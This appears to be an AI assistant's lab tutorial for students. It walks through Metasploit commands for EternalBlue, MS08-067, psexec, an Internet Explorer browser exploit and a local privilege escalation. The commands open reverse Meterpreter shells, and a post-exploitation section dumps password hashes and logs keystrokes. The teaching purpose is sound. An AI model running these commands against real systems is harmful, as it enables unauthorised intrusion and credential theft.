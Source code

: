 
1. **How EternalBlue works**
2. **How to exploit it in a lab**
3. **How to approach the other ones step-by-step**



## **1️⃣ MS17-010 – EternalBlue SMBv1 RCE**

**What it is:**

* SMB (Server Message Block) is a file-sharing protocol in Windows.
* In Windows 7 (and older systems), SMBv1 has a **buffer overflow vulnerability** that lets an attacker execute code remotely without authentication.
* Microsoft patched it in March 2017 — but many unpatched systems still exist in labs.
* Famously used in **WannaCry ransomware**.



### **Step-by-step Lab Example**

**Requirements:**

* Kali Linux attacker machine (Metasploit installed)
* Windows 7 SP1 (32-bit or 64-bit) **unpatched** with SMBv1 enabled (Host-Only Network in VirtualBox/VMware)



#### **1. Scan target with Nmap to check vulnerability**

```bash
nmap -p 445 --script smb-vuln-ms17-010 <target-ip>
```

* If it says **VULNERABLE**, you can proceed.



#### **2. Start Metasploit**

```bash
msfconsole
```



#### **3. Load the EternalBlue exploit**

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

---

#### **4. Set target IP**

```bash
set RHOSTS <target-ip>
```

---

#### **5. Choose payload**

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your-kali-ip>
```

---

#### **6. Exploit**

```bash
exploit
```

* If successful, you’ll get a **Meterpreter session** (remote shell).

---

#### **7. Post-exploitation fun** (For students to explore)

```bash
sysinfo         # Get system info
hashdump        # Dump password hashes
screenshot      # Capture desktop screenshot
keyscan_start   # Start keylogger
keyscan_dump    # Dump logged keystrokes
```

---

## **2️⃣ MS08-067 – NetAPI RCE**

**How it works:**

* Vulnerability in Windows Server service (`netapi32.dll`).
* Allows **unauthenticated remote code execution** via malformed RPC requests.
* Works well on older Windows 7 builds.

**Lab Steps:** (Almost same as above)

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOSTS <target-ip>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your-ip>
exploit
```

---

## **3️⃣ psexec SMB Admin Access**

**How it works:**

* Not a vulnerability — but if weak credentials are found, you can log in remotely and run code.
* Great for **lateral movement** exercises.

```bash
use exploit/windows/smb/psexec
set RHOSTS <target-ip>
set SMBUser administrator
set SMBPass 123456
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your-ip>
exploit
```

---

## **4️⃣ IE Browser Exploits**

**How it works:**

* Host a malicious webpage with Metasploit.
* Victim visits in IE 8/9 → exploit triggers.

Example:

```bash
use exploit/windows/browser/ie_execcommand_uaf
set SRVHOST <your-ip>
set URIPATH /
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your-ip>
exploit
```

Then, get victim to visit:
`http://<your-ip>/`

## **5️⃣ Local Privilege Escalation**

**How it works:**

* You already have a low-privilege account, and you exploit a kernel or service misconfiguration to become SYSTEM.

Example:

```bash
use exploit/windows/local/ms10_015_kitrap0d
set SESSION <session-id>
exploit
```

Do you want me to prepare that cheat sheet so your students can use it in class?
It would make their lab work much smoother.
